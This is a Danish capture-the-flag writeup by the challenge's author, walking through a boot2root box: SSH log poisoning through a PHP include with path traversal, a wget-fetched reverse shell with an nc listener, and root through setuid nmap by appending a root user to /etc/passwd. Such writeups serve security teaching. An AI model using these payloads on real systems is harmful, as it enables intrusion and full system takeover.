 ```yaml
---
layout: post
title:  "DDC 2022 'Gift' Writeup"
date:   2022-05-07 16:17:46 +0200
categories: writeups
---
```

# Gift
Dette er mit writeup for Gift, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `gift.hkn` på screenshots)

Ihvertfald er `Gift` en `boot2root` challenge hvor hensigten er at udnytte et `php include` statement til at udføre `log poisoning` igennem  `auth.log`.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```
root@d993e6b1ec7c:/# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 18:47 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.07 seconds
```

Hvilket viser `ssh` åben på port 22 og vores `webserver` på 8000.

Webserveren viser dope ass billeder af henholdsvis mig og mrbeef (skud ud til amar også).

Hvis man trykker `view source` kan man se at der er et link til backup som viser source koden.

```php
<!DOCTYPE html>
<style>
.container {
  display: flex;
  justify-content: center;
}
.center{
    position: absolute;
}
</style>
<html>
<body>
<div class="container">
  <div class="center"><h1>Er det MrBeef eller 0xlimE? Det er ihvertfald giftigt</h1></div>
    <br>


<?php
$pics = range(1,13);
echo("<div class='center' style='width:1000px; height:1000px; margin-top: 100px; background-image: url(\"pics/".$pics[rand(0, count($pics) - 1)].".png\");'></div>");
if( isset($_GET['adminDebug']))
{   
    include("admin/".$_GET['adminDebug']);
}

?>

</div>

<div style="display: none;">
<a href ="secretSAUCE/src.zip">Source here</a>
</div>
</body>
</html>
```

Der er et farligt farligt `php include` parret med `path traversal` se mere her: https://medium.com/@emmapinheiro42/php-include-ignore-4a3ba81371af

Vi kan prøve at inkludere `/var/log/auth.log` for at se om vi kan `forgifte` den log.

![authlog](/assets/auth.log.jpg)

Yes det virker. Vores næste step er at få noget php kode ind i loggen, som vi kan udnytte.

Vi logger ind med

```
ssh '<?php echo(system($_GET["a"])); ?>'@gift.hkn
```

skriver et forkert password, og prøver at inkludere loggen igen med parameter fra payload ovenover.

![logpoison](/assets/logpoison.jpg)

ok vi har command execution.

Lad os få en mere stabil reverse shell, jeg har god erfaring med at skrive den her php revshell til en fil og bruge den https://gist.github.com/rshipp/eee36684db07d234c1cc

Lav en fil på din angriber maskine, kald den for `rev.php` og læg din egen ip ind, host den med en python3 server `python3 -m http.server 80` og hent den ned til target ved at kalde.

```
http://gift.hkn:8000/?adminDebug=../../../../../var/log/auth.log&a=wget http://DIN IP HER/rev.php
```

herefter kan du trigger din reverse shell ved først at køre `nc -lvnp 1234` på din angriber maskine, og så gå til `gift.hkn/rev.php`

![revshell](/assets/revvy.jpg)


ok så er vi på maskinen.

Her laver du så standard linux privesc enum, jeg plejer at bruge linpeas. https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Herfra finder du så ud af at `nmap` er installeret på maskinen med `setuid` bit på.

![revshell](/assets/setuid.JPG)

Det betyder at vi kan køre nmap som root brugeren. 

Vi tjekker gtfobins ud.

https://gtfobins.github.io/gtfobins/nmap/

Ok, ser ud til at vi har root read, men vi ved ikke hvad flaget hedder. Vi har også root write, så lad os tilføje en root bruger med et password vi kender.

her er en god artikel om at skrive til /etc/passwd
https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/ 

vi vil gerne bruge ovenstående taktik til at skrive en ny bruger, som har root access og som har et password vi kender. Vi kan generere hash for passwordet `a` således:

![revshell](/assets/password.jpg)

Ok, så kigger vi lige på det angreb de beskriver på gtfobins til read.

```bash
TF=$(mktemp)
echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
nmap --script=$TF
```

Det her kan vi modificere en smule til at skrive til `/etc/passwd`

```bash
TF=$(mktemp) && echo 'local f=io.open("/etc/passwd", "ab"); f:write("\nroot3:OEE5bK0hmfPj.:0:0:root:/root:/bin/bash"); io.close(f);' > $TF && nmap --script=$TF
```

**main points**
* we change the file to `/etc/passwd`
* we change `rb` from read bytes to `ab` append bytes
* we change `read` to `write` .
* we change the payload to write `\nroot3:EN0jGZIeW.SKM:0:0:root:/root:/bin/bash`

Vi kan køre exploit på remote og prøve at privesc

![revshell](/assets/privesc1.JPG)

lol fuck, ok vi skal have en upgraderet shell, her er en god guide til at få en bedre shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


vi kunne også have lagt en ny ssh nøgle i vores bruger sssh mappe

nu prøver vi

```bash
su root3
Password: a
```

cool vi er root og hopper til `/root` og flag!


![revshell](/assets/flag.jpg)



sry for at have sagt det her er nemt, det er min fejl :(